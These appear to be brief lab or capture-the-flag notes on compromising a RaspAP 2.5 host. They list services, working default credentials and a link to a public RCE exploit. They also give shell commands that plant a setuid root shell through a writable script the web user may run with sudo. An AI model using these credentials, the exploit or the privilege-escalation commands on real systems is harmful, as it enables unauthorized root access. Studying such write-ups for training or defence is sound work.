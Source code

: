 ### ++ Approach 192.168.242.97 ++
#### Credentials
	* admin:secret (RaspAP)

#### Services
	##### 22 SSH
		- 

	##### 422 SSH
		-

	##### 42042 SSH
		-

	##### 23 Telnet
		Linux Telnetd 0.17

	##### 25 Smtp
		-

	##### 53 DNS?
		-

	##### 8091 Http
		Found RaspAP app here, default credentials are admin:secret and they work
        RaspAP 2.5

### ++ Vulnerabilities ++

#### Vuln 1: RCE for RaspAP 2.5 ++
	* Exploit: https://github.com/gerbsec/CVE-2020-24572-POC/blob/main/exploit.py

### ++ System Interaction ++
#### Foothold  
	* Abusing vuln 1 we get a shell as www-data

#### Privilege Escalation 
	* Checking sudoers (sudo -l) we see than www-data can run as sudo the script wifi_reset.py located in walter home directory, where www-data has write permissions
    * Create a file with the same name in the folder with a malicious python payload and run the script as sudo
        Commands:
            mv wifi_reset.py wifi_reset-bk.py
            echo -e 'import os\nos.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")' > wifi_reset.py
            sudo /usr/bin/python /home/walter/wifi_reset.py
            /tmp/sh -p
